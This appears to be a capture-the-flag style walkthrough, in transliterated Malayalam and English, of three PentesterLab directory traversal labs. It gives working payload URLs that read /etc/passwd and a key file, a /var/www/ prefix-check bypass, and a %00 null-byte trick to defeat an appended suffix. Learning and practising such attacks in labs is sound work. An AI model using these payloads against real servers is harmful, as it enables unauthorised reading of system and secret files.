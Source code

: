 ============================================================

# Directory Traversal 01
-->ivide lab open aakumbol page il kanikunath pentesterlab.key enna file il ninum key edukanamenan.page il oru image allathe vere onum ila
-->so image right click chyth open image in a new page adikuka.apol url inagne kanam :
->http://ptl-e7883c6c-51000246.libcurl.so/file.php?file=hacker.png
-->REMEMBER ivide file.php enna file il aan hacker.png enna image kidakunath.so aa file il ninuman namal ee hacker.png file retrieve chythath.
-->so namuk aa file.php access chyan patumon noka ie, file.phh?file=./file.php (or =file.php)
-->ivide `./`  ittan file.php enn koduthath.enit send adichapol page il onum kanan ila.so right cilck chyth view-source edukuka apol namuk aa file.php inte source code kitunund.
-->so ini ithil namuk directory traversal chyth nokam ok
->http://ptl-e7883c6c-51000246.libcurl.so/file.php?file=/../../../../../etc/passwd   ingane kodukumbol passwd kitunund.but namuk vendath pentesterlab.key enna file aan.so ivide ulla /etc/passwd matiyal key kitum ok

# Directory Traversal 02
-->ividem nerthe pole thane.oru img mathrame ulu.so aa image open chyuka.apol namuk ee url kitum 
->http://ptl-87cffaa4-0580424e.libcurl.so/file.php?file=/var/www/hacker.png
-->so namal test chyuka.ivide namal file=/etc/passwd adichal onum kitila
-->namuk php code kitumon nokam.so file.php?file=/var/www/./file.php  (Or =/var/www/file.php) enn kodukuka enit view-source adichal code kitum
-->ivide code nokiyal kanam :
```
if (!(strstr($file,"/var/www/")))
	die();
```
-->athayath file parameter il enthayalum /var/www undayirikanam ie, file=var/www/  
-->so ath matathe venam traverse chyan ie, file=/var/www/../../../../../etc/passwd
-->so namuk ee /etc/passwd mati /pentesterlab.key aaki send chyuka


# Directory Traversal 03(%00)
-->This example is based on a common problem when you exploit directory traversal: the server-side code adds its own suffix to your payload.
-->lab open chyuka enit nerthe pole img open chyuka
->http://ptl-c6a8c9e7-cb16b6e7.libcurl.so/file.php?file=hacker
-->ingane aan url undavuka.ivide hacker image in extension illa.karnam server automatic aayi .png suffix kodukunund
-->so namal enth chyanamenal =hacker il null bytes idanam ie,=hacker.png%00
-->so ivide namal thane .png koduthit null byte koduth apol server automatic aayi iduna suffix comment aakum
-->so ini namuk ee file.php nokam ie, file.php?file=file.php%00
-->resutl il onum kanila.pakaram view-source adikuka apol php code kitum
-->so ini namuk traverse chyam ie,=/../../../../etc/passwd%00

============================================================
